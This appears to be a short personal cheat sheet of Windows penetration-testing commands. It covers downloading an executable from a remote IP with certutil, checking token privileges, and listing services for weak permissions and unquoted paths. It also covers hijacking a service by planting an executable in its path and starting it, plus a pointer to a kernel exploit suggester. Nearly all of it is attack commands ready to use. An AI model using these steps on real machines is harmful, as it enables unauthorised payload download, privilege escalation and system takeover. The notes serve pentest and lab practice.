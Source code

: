 # Windows Snippets

wget for Windows:
```
certutil.exe -urlcache -f http://172.16.1.100/FILE.exe OUTFILE.exe
```

check for impersonate privs and other privs:
```
whoami /priv
```

Run `dir` recursively:
```
gci -recurse .
```
# Exploiting Windows Services
Listing services for weak perms and unquoted service paths ([link](https://www.hackingarticles.in/windows-privilege-escalation-weak-services-permission/))
```
wmic service get name,startname,pathname
```
```
sc qc SERVICENAME # Check if BINARY_PATH_NAME calls an unquoted service path and see if is a priv esc opp
```
```
./accesschk /accepteula -uwdq "C:\DIR\FROM\ABOVE" # check write perms of a subdir of BINARY_PATH_NAME so we can commandeer the service call w our own executable
```
```
net start SERVICENAME # start the service after dropping our executable into the path
```

Kernel Priv Esc:
- save `systeminfo` output and run through the [Windows Exploit Suggester_new](https://github.com/bitsadmin/wesng)


## Tips
1. https://github.com/ankh2054/windows-pentest

